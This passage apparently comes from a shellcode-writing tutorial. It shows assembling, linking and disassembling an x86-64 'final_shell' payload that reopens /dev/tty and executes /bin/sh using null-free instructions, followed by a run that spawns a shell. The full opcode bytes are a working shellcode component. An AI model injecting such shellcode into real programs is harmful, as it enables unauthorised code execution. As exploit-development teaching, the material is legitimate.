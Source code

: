 We should continue to get a shell when we assemble and run this code.

```
$ nasm -f elf64 -o final_shell.o final_shell.asm

$ ld -o final_shell final_shell.o

$ objdump -D final_shell -M intel

final_shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 c0                xor    rax,rax
  401003:       48 31 ff                xor    rdi,rdi
  401006:       b0 03                   mov    al,0x3
  401008:       0f 05                   syscall
  40100a:       50                      push   rax
  40100b:       48 bf 2f 64 65 76 2f    movabs rdi,0x7974742f7665642f
  401012:       74 74 79
  401015:       57                      push   rdi
  401016:       54                      push   rsp
  401017:       5f                      pop    rdi
  401018:       50                      push   rax
  401019:       5e                      pop    rsi
  40101a:       66 be 02 27             mov    si,0x2702
  40101e:       b0 02                   mov    al,0x2
  401020:       0f 05                   syscall
  401022:       48 31 c0                xor    rax,rax
  401025:       b0 3b                   mov    al,0x3b
  401027:       48 31 db                xor    rbx,rbx
  40102a:       53                      push   rbx
  40102b:       bb 6e 2f 73 68          mov    ebx,0x68732f6e
  401030:       48 c1 e3 10             shl    rbx,0x10
  401034:       66 bb 62 69             mov    bx,0x6962
  401038:       48 c1 e3 10             shl    rbx,0x10
  40103c:       b7 2f                   mov    bh,0x2f
  40103e:       53                      push   rbx
  40103f:       48 89 e7                mov    rdi,rsp
  401042:       48 83 c7 01             add    rdi,0x1
  401046:       48 31 f6                xor    rsi,rsi
  401049:       48 31 d2                xor    rdx,rdx
  40104c:       0f 05                   syscall

$ ./final_shell
$ ls
README.md    basic_shell.asm  better_shell      better_shell.o  final_shell.asm
basic_shell  basic_shell.o    better_shell.asm  final_shell     final_shell.o
$
```
